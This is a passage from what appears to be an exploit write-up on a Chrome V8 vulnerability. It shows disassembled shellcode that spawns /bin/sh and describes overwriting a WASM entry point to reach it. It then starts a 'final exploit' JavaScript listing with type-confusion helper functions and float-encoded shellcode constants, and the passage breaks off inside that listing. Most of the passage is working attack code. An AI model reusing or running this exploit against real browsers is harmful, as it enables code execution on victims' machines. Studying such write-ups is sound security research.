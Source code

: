 ```
0x5554c0004361:      nop
0x5554c0004362:      nop
0x5554c0004363:      jmp    0x5554c0004371

0x5554c0004371:      mov    rdi,rsp
0x5554c0004374:      nop
0x5554c0004375:      nop
0x5554c0004376:      nop
0x5554c0004377:      jmp    0x5554c0004385

0x5554c0004385:      xor    rax,rax
0x5554c0004388:      mov    al,0x3b
0x5554c000438a:      nop
0x5554c000438b:      jmp    0x5554c0004399

0x5554c0004399:      xor    rsi,rsi
0x5554c000439c:      xor    rdx,rdx
0x5554c000439f:      syscall
```

Or in other words, `execve("/bin/sh", 0, 0)`.

Now all we have to do is overwrite the address of the WASM entry point with one that jumps directly to our shellcode instead.

Wild.

### Putting it all together

My final exploit, made up of techniques cobbled together from various sources and some improvisation of my own, is shown below:

```javascript
// Somewhat modified from: https://cwresearchlab.co.kr/entry/Chrome-v8-Hole-Exploit

var arr_buf = new ArrayBuffer(8); // shared buffer
var f64_arr = new Float64Array(arr_buf); // buffer for float
var b64_arr = new BigInt64Array(arr_buf); // buffer for bigint

// convert float to bigint
function ftoi(f) {
	f64_arr[0] = f;
	return b64_arr[0];
}

// convert bigint to float
function itof(i) {
	b64_arr[0] = i;
	return f64_arr[0];
}

// convert smi to origin
function smi(i) {
	return i << 1n;
}

// print integer as hex
function hex(i) {
 console.log('0x' + i.toString(16));
}

const f = () => {
    return [1.9555025752250707e-246,
        1.9562205631094693e-246,
        1.9711824228871598e-246,
```